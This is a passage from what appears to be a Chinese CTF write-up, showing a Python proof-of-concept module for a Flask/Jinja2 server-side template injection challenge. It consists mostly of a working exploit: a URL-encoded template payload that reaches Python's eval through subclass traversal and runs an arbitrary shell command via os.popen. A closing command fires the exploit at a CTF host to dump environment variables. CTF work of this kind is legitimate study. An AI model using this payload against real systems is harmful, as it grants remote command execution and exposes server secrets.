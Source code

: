 ```python
            if ch!=' ':
                newstr = newstr+ch
        return newstr

    def _attack(self):
        result = {}
        path = "?name="
        url = self.url + path
        #print(url)
        cmd = self.get_option("command")
        payload = '%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()'\
        '%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20'\
        'for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__'\
        '%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()'\
        '%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__("os").popen("'+cmd+'").read()%27)'\
        '%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor'\
        '%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D'
        #print(payload)
        try:
            resq = requests.get(url + payload)
            t = resq.text 
            t = t.replace('\n', '').replace('\r', '')
            print(t)
            t = t.replace(" ","")
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = url
            result['VerifyInfo']['Name'] = payload
        except Exception as e:
            return 
        return self.parse_attack(result)

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

    def _shell(self):
        return

    def parse_verify(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output


register_poc(DemoPOC)
```
最后直接一把梭`python3 cli.py -r pocs/all-flask.py -u http://node3.buuoj.cn:28932 --attack --command env`
![](/bmth_blog/images/pasted-98.png)
